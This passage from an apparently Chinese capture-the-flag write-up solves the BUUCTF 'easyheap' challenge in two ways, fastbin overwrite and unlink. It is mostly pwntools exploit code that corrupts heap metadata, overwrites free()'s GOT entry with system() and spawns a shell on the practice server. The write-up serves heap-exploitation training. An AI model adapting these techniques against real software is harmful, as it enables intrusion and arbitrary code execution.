 ```python
create(0x60, b'colin')		# chunk #1
delete(1)
edit(0, 0x100, cyclic(0x40) + p64(0) + p64(0x71) + p64(0x6020B5 - 8))	# overflow chunk #1
create(0x60, b'colin')	# new chunk #1
create(0x60, b'\x00' * 3 + p64(0) * 4 + p64(elf.got['free']))	# alloc chunk in bss, overflow chunk #0
edit(0, 0x8, p64(elf.plt['system']))		# edit free().got to system().plt
create(0x60, b'/bin/sh')
delete(3)	# system('/bin/sh')
io.interactive()
```

**方法2：unlink**
通过使用unsorted bin的unlink操作控制heaparray数组，也是一种可行的方法。具体的实现原理请参考我的how2heap系列第5、8篇文章，本题的实现原理与how2heap中unlink的演示高度相似。

exp：
```python
from pwn import *
context(arch='amd64', log_level='debug')

# io = process('./easyheap')
elf = ELF('./easyheap')
io = remote('node4.buuoj.cn', 28974)

def create(size, content):
	io.sendlineafter(b'Your choice :', b'1')
	io.sendlineafter(b'Size of Heap : ', str(size).encode())
	io.sendlineafter(b'Content of heap:', content)

def edit(index, size, content):
	io.sendlineafter(b'Your choice :', b'2')
	io.sendlineafter(b'Index :', str(index).encode())
	io.sendlineafter(b'Size of Heap : ', str(size).encode())
	io.sendlineafter(b'Content of heap :', content)

def delete(index):
	io.sendlineafter(b'Your choice :', b'3')
	io.sendlineafter(b'Index :', str(index).encode())
	
create(0x80, b'colin')	# chunk #0
create(0x80, b'colin')	# chunk #1
create(0x80, b'/bin/sh')	# chunk #2
fakechunk_struct = p64(0)
fakechunk_struct += p64(0x80)	# fake chunk size = 0x80
fakechunk_struct += p64(0x6020E0 - 0x18)	# fake chunk fd, fd->bk = fake chunk
fakechunk_struct += p64(0x6020E0 - 0x10)	# fake chunk bk, bk->fd = fake chunk
fakechunk_struct += cyclic(0x80 - 0x20)
fakechunk_struct += p64(0x80)	# overwrite chunk #1 prev size
fakechunk_struct += p64(0x90)	# overwrite prev_in_use bit = 0
edit(0, 0x90, fakechunk_struct)
delete(1)	# trigger unlink, after deletion chunk #0 should be 0x6020E0 - 0x18 = 0x6020C8
edit(0, 0x20, cyclic(0x18) + p64(elf.got['free']))	# change chunk #0 to free().got
edit(0, 0x8, p64(elf.plt['system']))	# change free().got to system().plt
delete(2)	# system('/bin/sh')
io.interactive()
```
